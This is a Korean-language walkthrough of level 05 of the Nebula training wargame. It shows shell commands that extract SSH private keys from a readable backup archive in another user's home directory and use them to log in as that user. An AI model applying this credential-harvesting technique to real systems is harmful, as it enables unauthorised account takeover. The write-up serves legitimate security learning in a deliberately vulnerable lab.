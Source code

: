 # Level 05

## Plot

### About

Check the flag05 home directory. You are looking for weak directory permissions

To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.

## `/home/flag05`로 일단 들어가보자

```text
level05@nebula:~$ cd /home/flag05
level05@nebula:/home/flag05$ ls -al
total 5
drwxr-x--- 1 flag05 level05   60 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     200 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 1 flag05 flag05    40 2011-11-20 20:13 .ssh
```

`.backup` 디렉토리에 들어가면 `backup-19072011.tgz` 압축파일이 있는 것을 확인할 수 있다.

```text
level05@nebula:~$ tar -xvsf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ ls -al .ssh
total 16
drwxr-xr-x 1 level05 level05  120 2011-07-19 02:37 .
drwxr-x--- 1 level05 level05  200 2018-06-20 05:44 ..
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 authorized_keys
-rw------- 1 level05 level05 1675 2011-07-19 02:37 id_rsa
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 id_rsa.pub
-rw-r--r-- 1 level05 level05  222 2018-06-20 06:52 known_hosts
```

이 압축파일을 [풀면](https://askubuntu.com/questions/499807/how-to-unzip-tgz-file-using-the-terminal) `.ssh` 디렉토리와 아래에 몇개의 파일이 있다. 무슨 파일인지 찾다보니 [여길](https://askubuntu.com/questions/88712/how-do-i-backup-ssh-keys) SSH 인증키 파일인 것을 찾았다. 이걸 `flag05`의 홈 디렉토리에서 찾았으니 이 키 파일은 `flag05`의 것이라고 생각할 수 있다. 그래서 압축 풀어서 나온 `.ssh` 디렉토리를 `level05`의 홈 디렉토리에 놓고 `flag05` 계정으로 SSH 연결을 하면 다른 인증 과정 없이 들어가진다!

```text
level05@nebula:~$ ssh flag05@127.0.0.1

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

SSH 관련 파일들을 더 알아보면 좋을 것 같다~